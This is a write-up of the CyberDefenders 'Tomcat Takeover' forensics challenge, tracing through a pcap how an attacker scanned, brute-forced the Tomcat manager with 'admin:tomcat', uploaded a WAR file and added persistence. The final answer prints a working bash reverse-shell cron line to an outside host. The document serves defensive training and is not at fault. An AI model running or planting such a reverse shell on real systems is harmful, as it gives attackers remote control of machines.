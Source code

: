 # [CyberDefenders - Tomcat Takeover](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/)
Created: 22/02/2024 10:30
Last Updated: 22/02/2024 11:32
* * *
>Category: Network Forensics
>Tags: Wireshark, PCAP, Tomcat, Network, NetworkMiner, T1071, T1083, T1110, T1027, T1053.003, T1059, T1595
* * *
**Scenario**:
Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

Tools:
- [Wireshark](https://www.wireshark.org/download.html)
- [NetworkMiner](https://www.netresec.com/?page=NetworkMiner)
***
## Questions
> Q1: Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?

![3d442e3a446f348ae6685626b1ffd015.png](/_resources/3d442e3a446f348ae6685626b1ffd015-1.png)
I used http filter and found that the server might be `10.0.0.112` running on port `8080`
![da93e93362697a2cb76dad531f5f9bbd.png](/_resources/da93e93362697a2cb76dad531f5f9bbd-1.png)
![1dbc530e5e62dffe7cebc1cf8e7e745f.png](/_resources/1dbc530e5e62dffe7cebc1cf8e7e745f-1.png)
I kept scrolling and found something suspicious, there were a lot of 4xx Error from the server response to `14.0.0.120` and it seems like this IP address is an attacker

Looking at the User-Agent, it seems like this attacker used [Gobuster](https://github.com/OJ/gobuster) a brute forcing tool to enumerate directories on the server
```
14.0.0.120
```

> Q2: 
Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?

![0b38b8b83f669ba738b2c7ce9058f73d.png](/_resources/0b38b8b83f669ba738b2c7ce9058f73d-1.png)
```
Guangzhou
```

> Q3: 
From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?

![db7dfbf450ae4fd298ac76ac93c1f9a7.png](/_resources/db7dfbf450ae4fd298ac76ac93c1f9a7-1.png)
```
8080
```

> Q4: 
Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?
```
gobuster
```

> Q5: Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?

![ca2c8c1c6bbcf155ddee4e71611e47e0.png](/_resources/ca2c8c1c6bbcf155ddee4e71611e47e0-1.png)
The `/admin` was not right so I kept scrolling and found that `/manager` is likely to be the one I was looking for
```
/manager
```

> Q6: Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?

![c26fd6816301db342e91e572813a500d.png](/_resources/c26fd6816301db342e91e572813a500d-1.png)
After found the admin panel, the attacker bruteforcing out
![ba68edd11dc8f034f44d5fc5f3b3a0e1.png](/_resources/ba68edd11dc8f034f44d5fc5f3b3a0e1-1.png)
Follow the HTTP stream, And look like the user credential were presented on the page source but it's not the right one so I kept searching
![a19f3a664a15fbd1b1edc3347e9043cd.png](/_resources/a19f3a664a15fbd1b1edc3347e9043cd-1.png)
And I finally found it, on the HTTP POST method
```
admin:tomcat
```

> Q7: Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?

![14c85f398c10e8826b97d2312705f0ca.png](/_resources/14c85f398c10e8826b97d2312705f0ca-1.png)
On the HTTP POST Method, I follow the TCP stream and found the file name of the uploaded file
```
JXQOZY.war
```

> Q8: Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?

![bdc75ed35229fef54135ebceec256d2a.png](/_resources/bdc75ed35229fef54135ebceec256d2a-1.png)
After the attacker uploaded a reverse shell to the server, the attacker triggered it and connection were established
![749fe59ca664cc6214844e825816513c.png](/_resources/749fe59ca664cc6214844e825816513c-1.png)
I followed the TCP stream of that connection and found that the attacker added the bash reverse shell to cronjob so this is the way for an attacker to stay persistance
```
/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```

![7d75d6b9739a0c9a3eaeec231fc869ee.png](/_resources/7d75d6b9739a0c9a3eaeec231fc869ee-1.png)
* * *